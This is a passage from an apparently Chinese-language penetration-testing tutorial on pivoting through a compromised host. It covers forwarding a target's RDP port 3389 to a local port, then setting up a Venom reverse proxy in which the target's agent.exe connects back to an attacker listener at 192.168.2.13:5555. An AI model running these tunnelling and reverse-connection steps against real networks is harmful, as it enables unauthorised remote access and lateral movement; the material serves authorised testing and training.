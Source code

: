 ```
telnet 127.0.0.1 1010
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

四、吧目标的3389端口转发到本地的33389

```
`命令语法： [createTunnel]要绑定到本地哪个端口上[33389]:127.0.0.1:要绑定远程机器上的哪个端口[3389,22]` `[createTunnel]33389:127.0.0.1:3389`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

五、连接本地的33389进行远程桌面登陆

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

* * *

  

**venom反向socks代理**

  

Venom是一款为渗透测试人员设计的使用Go开发的多级代理工具。

Venom可将多个节点进行连接，然后以节点为跳板，构建多级代理。

渗透测试人员可以使用Venom轻松地将网络流量代理到多层内网，并轻松地管理代理节点。

  

一、攻击机监听本地端口5555

```
admin.exe -lport 5555
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

二、目标边界反向连接我们服务端（192.168.2.13）

```
agent.exe ‐rhost 192.168.2.13 ‐rport 5555
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

连接成功服务端会显示success！

三、查看节点

```
show 
```
